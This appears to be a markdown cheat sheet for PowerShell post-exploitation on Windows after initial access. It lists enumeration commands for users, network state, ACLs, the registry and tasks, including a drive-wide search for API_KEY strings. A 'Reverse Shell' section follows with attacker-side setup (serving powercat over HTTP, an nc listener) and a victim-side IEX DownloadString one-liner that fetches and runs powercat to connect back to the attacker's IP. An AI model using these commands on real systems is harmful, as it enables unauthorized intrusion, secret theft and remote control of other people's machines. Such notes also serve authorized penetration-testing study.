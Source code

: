 # Enumeration

The first step when you have gained initial access to any machine would be to enumerate. We'll be enumerating the following:
- users:
  - Get-LocalUser
  - (Get-LocalUser).Name
  - (Get-LocalUser).Name.Count
  - Get-LocalUser -SID "sid_value"
  - Get-LocalUser | Where-Object -Property PasswordRequired -Match false
  - Get-LocalGroup | measure
- basic networking information:
  - Get-NetIPAddress
  - Get-NetTCPConnection | Where-Object -Property State -Match Listen | measure
  - get-nettcpconnection | where {$_.state -eq "listen" -and $_.localport -eq 445}
  - Get-NetRoute
  - Get-NetAdapter -Name * -IncludeHidden
  - Get-NetAdapter -Name * -Physical
- file permissions:
  - Get-ChildItem -Path C:\ -Include *.bak* -File -Recurse -ErrorAction SilentlyContinue
  - Get-ChildItem C:\* -Recurse | Select-String -pattern API_KEY
  - Get-Acl C:\ | Format-List
  - Get-ChildItem C:\ -Recurse | Get-Acl | Select-Object PSChildName, AccessToString | Format-List
- registry permissions:
  - Get-Acl "HKLM:\Software" | Format-List
  - Get-Hotfix
  - Get-Hotfix -Id KB4023834
- scheduled and running tasks:
  - Get-Process
  - Get-ScheduledTask -TaskName * | Format-List
  - Get-ScheduledTask | Where-Object {$_.State -eq "Running"}
  - get-scheduledtask | where {$_.taskname -eq "new-sched-task"}
- insecure files:
  - Get-ChildItem -Recurse C:\ | Get-Acl | Where-Object {($_.AccessToString -match "Everyone") -and ($_.AccessToString -match "FullControl")}
 
# Reverse Shell

Attacker's Machine:
- git clone https://github.com/besimorhino/powercat && cd powercat
- python3 -m http.server 8080
- nc -lvnp 1337
Victim's Machine:
- Execution Policy:
  - Get-ExecutionPolicy
  - Set-ExecutionPolicy -Scope CurrentUser RemoteSigned
- Download and execute payload:
  - IEX(New-Object System.Net.WebClient).DownloadString('http://[Attacker's IP]:8080/powercat.ps1'); powercat -c [Attacker's IP] -p 1337 -ep

